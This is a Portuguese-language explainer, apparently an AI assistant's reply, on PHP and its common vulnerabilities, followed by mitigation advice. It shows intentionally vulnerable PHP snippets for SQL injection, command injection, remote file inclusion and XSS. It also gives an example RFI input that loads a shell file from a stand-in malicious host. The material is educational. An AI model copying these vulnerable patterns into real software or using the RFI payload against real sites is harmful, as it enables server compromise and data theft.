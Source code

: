 PHP (Hypertext Preprocessor) é uma linguagem de script de código aberto amplamente usada, especialmente no desenvolvimento web para geração de conteúdo dinâmico em servidores. Inicialmente desenvolvida em 1994 por Rasmus Lerdorf, PHP evoluiu para ser uma das linguagens mais populares, com suporte embutido para vários sistemas de banco de dados e fácil integração com HTML.

### Funcionamento e Características
PHP é interpretado no servidor, o que significa que o código é executado no servidor antes de ser enviado ao navegador do usuário. O resultado do script PHP geralmente é uma página HTML que o navegador pode renderizar. Alguns pontos técnicos incluem:
- **Sintaxe simples e familiar**: A estrutura do PHP se assemelha a C e Perl, facilitando a adoção.
- **Lado do servidor**: Executado no servidor, o que melhora a segurança e reduz o processamento no cliente.
- **Integração com HTML**: Pode ser embutido diretamente no HTML, o que o torna fácil de usar em desenvolvimento web.
- **Ampla compatibilidade com bancos de dados**: MySQL, PostgreSQL, SQLite, entre outros.
- **Bibliotecas integradas**: PHP tem suporte nativo para manipulação de arquivos, sessões, cookies e outras funcionalidades úteis em aplicações web.

### Principais Usos no Hacking
No contexto de segurança e hacking, o PHP é frequentemente explorado devido a sua presença em uma grande quantidade de websites e sistemas web. Hackers podem explorar vulnerabilidades em PHP para:
- **Injeção de código malicioso**: Inserindo scripts maliciosos em aplicações vulneráveis para executar comandos no servidor.
- **Upload de shells web**: Utilizado para obter acesso remoto ao servidor.
- **Modificação de conteúdo e injeção de SQL**: Através de falhas na sanitização de dados de entrada, é possível manipular consultas SQL, o que pode expor dados sensíveis.

### Vulnerabilidades Comuns e Perigosas
PHP tem um histórico de vulnerabilidades que são exploradas em contextos de segurança cibernética. Algumas das mais comuns e críticas são:

1. **Injeção de SQL (SQL Injection)**:
   - A injeção SQL ocorre quando um atacante consegue manipular consultas SQL pela entrada de dados do usuário.
   - Ferramentas como SQLmap exploram essas falhas para obter acesso não autorizado a dados.

   **Exemplo de Código Vulnerável:**
   ```php
   $id = $_GET['id'];
   $result = mysql_query("SELECT * FROM users WHERE id = $id");
   ```
   Esse código é vulnerável porque o valor de `$id` não é filtrado, permitindo manipulações na consulta.

2. **Injeção de Comandos (Command Injection)**:
   - Acontece quando o PHP executa comandos no sistema operacional sem sanitização.
   - Um código vulnerável pode ser algo como:
     ```php
     $cmd = $_GET['cmd'];
     system("ls $cmd");
     ```
     Inserindo comandos maliciosos em `$cmd`, um atacante pode executar operações no servidor.

3. **Inclusão Remota de Arquivos (RFI - Remote File Inclusion)**:
   - Permite que atacantes incluam arquivos externos, possibilitando a execução de código remoto.
   - Exemplo:
     ```php
     include($_GET['page']);
     ```
     Uma entrada maliciosa como `http://exemplo.com/?page=http://malicioso.com/shell.txt` pode comprometer o sistema.

4. **Cross-Site Scripting (XSS)**:
   - O XSS ocorre quando entradas de usuários são refletidas no site sem sanitização, permitindo execução de scripts no navegador de outro usuário.
   - Exemplo:
     ```php
     echo "Bem-vindo, " . $_GET['nome'];
     ```

5. **Cross-Site Request Forgery (CSRF)**:
   - Um ataque CSRF explora a confiança do navegador do usuário no site, enviando requisições não autorizadas.
   - A ausência de tokens de proteção em formulários pode facilitar esses ataques.

6. **Exposição de Informações Sensíveis**:
   - PHP permite a leitura de variáveis e arquivos internos, o que pode expor informações sensíveis.
   - Funções como `phpinfo()` podem revelar detalhes críticos do sistema.

### Boas Práticas para Evitar Vulnerabilidades
1. **Sanitização e Validação de Dados**: Use funções como `htmlspecialchars()` para evitar XSS e prepared statements para proteger contra SQL Injection.
2. **Configurações Seguras**: Desabilite `allow_url_include` e `register_globals`, e limite o uso de `eval()`.
3. **Controle de Acesso e Autenticação**: Adote tokens CSRF e verificação de permissões em todas as ações sensíveis.
4. **Monitoração e Logs**: Monitore atividades e armazene logs de erros e tentativas de acesso suspeitas.

PHP, apesar de suas vulnerabilidades, é extremamente útil para a criação de sites dinâmicos. Sua segurança depende fortemente de como é utilizado e da implementação de práticas seguras de programação. Quer aprofundar algum ponto específico ou ver algum exemplo de exploit?